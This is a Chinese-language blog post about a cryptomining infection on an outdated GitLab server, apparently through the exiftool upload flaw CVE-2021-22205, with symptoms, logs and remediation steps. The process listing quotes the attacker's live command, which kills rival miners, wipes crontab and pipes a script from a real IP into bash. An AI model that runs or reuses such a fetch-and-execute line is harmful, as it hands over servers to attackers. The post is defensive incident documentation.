 ```yaml
---
layout: post
title:  "gitlab中挖矿病毒应对"
author: "周海汉"
date:   2021-11-12 15:28:36 +0800
categories: tech
tags:
    - gitlab
    - 挖矿
    - 病毒
    - ldr.sh
    - pkill
    - mining
    - crypto
    - blockchain
---
```


# gitlab中挖矿病毒应对

# 概述
旧版gitlab可能中挖矿病毒

表现为
- CPU超高
- 大量的pkill进程
- gitlab时而可用时而不可用，经常502
- 日志exitool

# 具体表现
## cpu超高
```

  PID USER      PR  NI    VIRT    RES    SHR S  %CPU %MEM     TIME+ COMMAND
  368 git       20   0 2752356 2.290g   4380 S 146.8 29.4  37:35.80 kthzabor
  943 git       20   0 1097568 558192  20912 S   1.3  6.8   3:10.94 bundle

 ```

其中kthzabor 被感染。CPU达到100%以上。

## 大量pkill进程
```
root@i-fph8oxp3:~# ps -ef |grep pkill
git      10913 32537  0 14:14 ?        00:00:00 /bin/bash -c pkill -9 kdevtmpfsi | pkill -9 dbused | pkill -9 kinsing | crontab -r | curl 42.112.28.216/ldr.sh | bash
git      13814  2656  0 14:15 ?        00:00:00 /bin/bash -c pkill -9 kdevtmpfsi | pkill -9 dbused | pkill -9 kinsing | crontab -r | curl 42.112.28.216/ldr.sh | bash
git      13821 32513  0 14:15 ?        00:00:00 /bin/bash -c pkill -9 kdevtmpfsi | pkill -9 dbused | pkill -9 kinsing | crontab -r | curl 42.112.28.216/ldr.sh | bash

```
可以看到下载42.112.28.216/ldr.sh 脚本。
该IP地址在越南河内。

## 日志

### 运行日志有exiftool

`/var/log/gitlab/gitlab-workhorse/current`文件可以查到exiftool命令失败
```json
{"correlation_id":"eeP6E3wRUK9","filename":"test.jpg","level":"info","msg":"running exiftool to remove any metadata","time":"2021-11-11T14:07:55+08:00"}
{"command":["exiftool","-all=","--IPTC:all","--XMP-iptcExt:all","-tagsFromFile","@","-ResolutionUnit","-XResolution","-YResolution","-YCbCrSubSampling","-YCbCrPositioning","-BitsPerSample","-ImageHeight","-ImageWidth","-ImageSize","-Copyright","-CopyrightNotice","-Orientation","-"],"correlation_id":"eeP6E3wRUK9","error":"exit status 1","level":"info","msg":"exiftool command failed","stderr":""
```
### nginx访问日志
`/var/log/gitlab/nginx/gitlab_access.log`
查到攻击者IP `51.89.237.81`,`165.227.239.108`,都在英国
```
51.89.237.81 - - [12/Nov/2021:13:20:49 +0800] "GET /users/sign_in HTTP/1.0" 200 12708 "" "python-requests/2.26.0"
51.89.237.81 - - [12/Nov/2021:13:20:58 +0800] "POST /uploads/user HTTP/1.0" 422 24 "" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.0 Safari/537.36"
165.227.239.108 - - [12/Nov/2021:13:26:59 +0800] "GET /users/sign_in HTTP/1.0" 200 12708 "" "python-requests/2.24.0"

```
### 登录日志
产品日志和授权日志可能有创建的账号
`/var/log/gitlab/gitlab-rails/production_json.log`，`/var/log/gitlab/gitlab-rails/auth.log`

# 修补办法
## 修改安全防范措施
- 修改ssh端口
- 防火墙禁止ssh非许可IP登录。
- 堡垒机
- 白名单

## 杀死病毒进程

## 更新gitlab
gilab新版已经有了补丁
不能直接在线升级，否则病毒也会在里面。

### 修改exiftool
将文件替换为`/opt/gitlab/embedded/bin/exiftool`
```
#!/bin/bash

cat -
```
运行` chmod a+x exiftool`

持续升级并做上面的事情，直到13.10.3+。

## 升级

用下面的命令：
```
sudo su
cd ~
curl -JLO https://gitlab.com/gitlab-org/build/CNG/-/raw/master/gitlab-ruby/patches/allow-only-tiff-jpeg-exif-strip.patch
cd /opt/gitlab/embedded/lib/exiftool-perl
patch -p2 < ~/allow-only-tiff-jpeg-exif-strip.patch
```
如果 patch 失败，可以根据失败日志手动修改文件。

# 参考
- https://forum.gitlab.com/t/cve-2021-22205-how-to-determine-if-a-self-managed-instance-has-been-impacted/60918

- https://www.freebuf.com/articles/system/282954.html
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-22205
